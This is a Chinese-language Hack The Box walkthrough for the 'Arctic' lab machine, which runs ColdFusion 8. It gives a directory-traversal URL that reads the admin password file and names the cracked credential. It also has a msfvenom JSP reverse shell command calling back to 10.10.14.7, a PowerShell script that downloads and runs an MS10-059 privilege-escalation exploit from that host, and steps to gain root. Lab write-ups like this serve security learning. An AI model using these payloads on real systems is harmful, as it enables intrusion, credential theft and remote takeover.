










# Arctic\_11



这个在oscp时曾经做过一样的，非常简单

扫目录得到

```bash
http://10.10.10.11:8500/CFIDE/administrator/
```



ADOBE COLDFUSION 8

[https://www.exploit-db.com/exploits/14641](https://www.exploit-db.com/exploits/14641)

根据漏洞介绍使用以下payload可以直接读取到凭证

```bash
http://10.10.10.11/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

浏览器直接浏览得到md5加密的密码



```bash
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```



```bash
happyday
```

使用用户名`admin`密码`happyday`登陆进ADOBE的后台

此后台可以在`DEBUGGING & LOGGING`下的`Schedule Tasks`中可以通过增加新任务的方式添加文件进服务器。

首先本地生成一个payoad

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f raw > rshell.jsp
```

同时在本地当前工作目录建立简单的php http服务

```bash
$ php -S localhost:80
PHP 7.2.9-1 Development Server started at Sun Feb  2 14:25:56 2020
Listening on http://localhost:80
Document root is /root/HackTheBox/Arctic_10.10.10.11
Press Ctrl-C to quit.
```



在url这里将kali php http 服务下的制作好的rshell文件的url填入



文件的真实路径可以通过查看`SERVER SETTINGS`下的`Settings Summary`中查看




增加任务后点击提交按钮即可浏览`http://10.10.10.11:8500/CFIDE/rshell.jsp`以激活shell

在kali 监听端口可获得shell



在用户桌面文件夹可获得user


基础枚举后发现win版本适合使用ms10-059

[https://www.exploit-db.com/exploits/14610/](https://www.exploit-db.com/exploits/14610/)

下载好exploit后，在靶机上通过echo生成下载用的powershell脚本

```text
C:\ColdFusion8>echo $webclient = New-Object System.Net.WebClient >>wg.ps1  
echo $webclient = New-Object System.Net.WebClient >>wg.ps1

C:\ColdFusion8>echo $url = "http://10.10.14.7/MS10-059.exe" >>wg.ps1
echo $url = "http://10.10.14.7/MS10-059.exe" >>wg.ps1

C:\ColdFusion8>echo $file = "exploit.exe" >>wg.ps1
echo $file = "exploit.exe" >>wg.ps1

C:\ColdFusion8>echo $webclient.DownloadFile($url,$file) >>wg.ps1
echo $webclient.DownloadFile($url,$file) >>wg.ps1

C:\ColdFusion8>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wg.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wg.ps1
```



本地未占用的端口设立监听，执行exploit，在监听端口获得新的shell




root


